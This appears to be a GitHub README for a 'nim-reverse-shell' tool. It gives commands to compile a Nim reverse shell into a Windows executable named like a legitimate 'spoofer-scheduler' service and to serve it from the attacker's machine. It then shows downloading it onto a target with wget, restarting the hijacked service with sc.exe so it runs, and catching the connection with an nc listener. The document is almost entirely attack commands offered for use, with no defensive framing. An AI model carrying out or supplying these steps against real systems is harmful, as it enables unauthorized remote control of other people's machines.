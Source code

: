 # nim-reverse-shell
nim-reverse-shell


Example:

```
sudo apt install nim
```
update the script accordingly

![image](https://github.com/c0d3cr4f73r/nim-reverse-shell/assets/66146701/e9e8e972-9229-441e-8aba-39aea2448dc7)

```
nim c -d:mingw --app:gui --opt:speed -o:spoofer-scheduler.exe reverse.nim
```

![image](https://github.com/c0d3cr4f73r/nim-reverse-shell/assets/66146701/2e38dd6c-5364-433a-b787-70ec5248c23c)

```
python3 -m http.server 8888
```
```
wget http://tun0:8888/spoofer-scheduler.exe -o spoofer-scheduler.exe
```
![image](https://github.com/c0d3cr4f73r/nim-reverse-shell/assets/66146701/a6a6fd1a-0fae-4f09-b571-bbbb7e387ab2)

```
sc.exe stop spoofer-scheduler
sc.exe start spoofer-scheduler
```
![image](https://github.com/c0d3cr4f73r/nim-reverse-shell/assets/66146701/a017ba7e-3a5d-47cb-9811-52311bbd9c85)

```
nc -nlvp 8080
```
![image](https://github.com/c0d3cr4f73r/nim-reverse-shell/assets/66146701/79bc6165-e7ed-41a8-a27b-91a21e3a0b53)

